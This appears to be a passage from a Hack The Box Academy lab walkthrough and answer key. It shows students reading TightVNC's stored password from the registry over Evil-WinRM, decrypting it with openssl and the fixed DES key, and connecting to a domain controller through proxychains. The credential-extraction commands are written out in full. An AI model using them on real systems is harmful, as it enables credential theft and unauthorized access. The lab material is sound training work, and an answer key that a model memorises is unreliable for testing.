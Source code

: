 Students will query the registry key `HKLM\SOFTWARE\TightVNC\Server` to obtain the `Password` value:

Code: shell

```shell
reg query HKLM\SOFTWARE\TightVNC\Server /s
```

```shell-session
*Evil-WinRM* PS C:\Users\helen\Documents> reg query HKLM\SOFTWARE\TightVNC\Server /s

HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server
    ExtraPorts    REG_SZ
    <SNIP>
    EnableUrlParams    REG_DWORD    0x1
    Password    REG_BINARY    816ECB5CE758EABD
```

Students will return to their workstations, open a new terminal tab, and proceed to decrypt the password value:

Code: shell

```shell
echo -n 816ECB5CE758EABD | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

```shell-session
┌─[eu-academy-5]─[10.10.14.133]─[htb-ac-8414@htb-ise2nzsvgt]─[~]
└──╼ [★]$ echo -n 816ECB5CE758EABD | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv

00000000  56 4e 43 50 61 73 73 31                           |{hidden}|
00000008
```

Answer: `VNCPass1`

## Remote Management Tools

### Question 2

#### "Use VNC to connect to the DC01. What's the username of the account logged into the DC01 console?"

Students will reuse the previously spawned target and dynamic port-forwarding and connect to `DC01` (`172.20.0.10`) using `vncviewer` and submit the password `VNCPass1`:

Code: shell

```shell
proxychains vncviewer 172.20.0.10
```

```shell-session
┌─[eu-academy-5]─[10.10.14.133]─[htb-ac-8414@htb-ise2nzsvgt]─[~]
└──╼ [★]$ proxychains vncviewer 172.20.0.10

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16

TigerVNC Viewer 64-bit v1.12.0
Built on: 2023-01-06 16:01
Copyright (C) 1999-2021 TigerVNC Team and many others (see README.rst)
See https://www.tigervnc.org for information on TigerVNC.

Mon Jul 15 02:18:51 2024
```